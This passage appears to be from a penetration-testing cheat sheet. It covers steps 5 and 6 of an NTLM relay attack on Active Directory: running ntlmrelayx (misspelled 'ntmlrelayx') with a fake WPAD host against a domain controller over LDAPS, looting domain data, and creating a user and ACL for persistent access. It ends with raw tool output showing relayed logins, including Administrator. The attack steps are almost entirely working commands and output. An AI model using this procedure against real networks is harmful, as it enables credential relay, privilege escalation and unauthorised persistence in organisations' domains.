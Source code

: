```

5. run ntmlrelayx.py at the same time
```
ntmlrelayx.py -6 -t ldaps://<DC-IP> -wh fakewpad.<domain>.local -l lootme
```
6. check on results:
all captured info will be saved to lootme folder in the directory you ran this command. when someone logs in to a computer on the network this will try to create a user and acl for persistent access. 
```
firefox ./lootme/domain_users.html
```
Always check for passwords in the description. 

#### ntmlrelayx.py output:
```
TypeName: {'ACCESS_ALLOWED_ACE'}
[*] User privileges found: Create user
[*] User privileges found: Adding user to a privileged group (Enterprise Admins)
[*] User privileges found: Modifying domain ACL
[-] New user already added. Refusing to add another
[-] Unable to escalate without a valid user.
[-] New user already added. Refusing to add another
[-] Unable to escalate without a valid user, aborting.
[*] HTTPD: Received connection from ::ffff:192.168.1.10, attacking target ldaps://192.168.1.7
[*] HTTPD: Client requested path: http://ctldl.windowsupdate.com/msdownload/update/v3/static/trustedr/en/disallowedcertstl.cab?556e691713fe650f
[*] HTTPD: Client requested path: http://ctldl.windowsupdate.com/msdownload/update/v3/static/trustedr/en/disallowedcertstl.cab?556e691713fe650f
[*] HTTPD: Client requested path: http://ctldl.windowsupdate.com/msdownload/update/v3/static/trustedr/en/disallowedcertstl.cab?556e691713fe650f
[*] Authenticating against ldaps://192.168.1.7 as WONDERLAND\FRANK1$ SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
[*] HTTPD: Received connection from ::ffff:192.168.1.10, attacking target ldaps://192.168.1.7
[*] HTTPD: Client requested path: http://ctldl.windowsupdate.com/msdownload/update/v3/static/trustedr/en/pinrulesstl.cab?efa3d58d57c7e857
[*] HTTPD: Client requested path: http://ctldl.windowsupdate.com/msdownload/update/v3/static/trustedr/en/pinrulesstl.cab?efa3d58d57c7e857
[*] HTTPD: Received connection from ::ffff:192.168.1.10, attacking target ldaps://192.168.1.7
[*] HTTPD: Client requested path: http://tile-service.weather.microsoft.com/en-us/livetile/preinstall?region=us&appid=c98ea5b0842dbb9405bbf071e1da76512d21fe36&form=threshold
[*] HTTPD: Received connection from ::ffff:192.168.1.10, attacking target ldaps://192.168.1.7
[*] HTTPD: Client requested path: cdn.onenote.net:443
[*] HTTPD: Client requested path: http://tile-service.weather.microsoft.com/en-us/livetile/preinstall?region=us&appid=c98ea5b0842dbb9405bbf071e1da76512d21fe36&form=threshold
[*] HTTPD: Received connection from ::ffff:192.168.1.10, attacking target ldaps://192.168.1.7
[*] HTTPD: Client requested path: cdn.onenote.net:443
[*] HTTPD: Client requested path: http://ctldl.windowsupdate.com/msdownload/update/v3/static/trustedr/en/pinrulesstl.cab?efa3d58d57c7e857
[*] HTTPD: Client requested path: cdn.onenote.net:443
[*] HTTPD: Client requested path: http://tile-service.weather.microsoft.com/en-us/livetile/preinstall?region=us&appid=c98ea5b0842dbb9405bbf071e1da76512d21fe36&form=threshold
[*] Authenticating against ldaps://192.168.1.7 as WONDERLAND\Administrator SUCCEED
[*] Authenticating against ldaps://192.168.1.7 as WONDERLAND\FRANK1$ SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
[*] Enumerating relayed user's privileges. This may take a while on large domains
